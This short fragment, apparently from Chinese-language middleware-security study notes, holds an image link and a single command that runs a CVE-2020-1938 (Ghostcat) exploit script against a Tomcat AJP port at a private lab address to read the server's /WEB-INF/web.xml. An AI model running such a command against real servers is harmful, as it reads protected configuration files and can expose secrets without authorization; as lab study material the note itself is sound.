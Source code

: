 ```
python2 CVE-2020-1938.py -p 8009 -f /WEB-INF/web.xml 192.168.49.163
```

![image.png](18.中间件安全\1693469441460-264ecba6-4bf8-495b-8f05-66e5025e16ba.png)
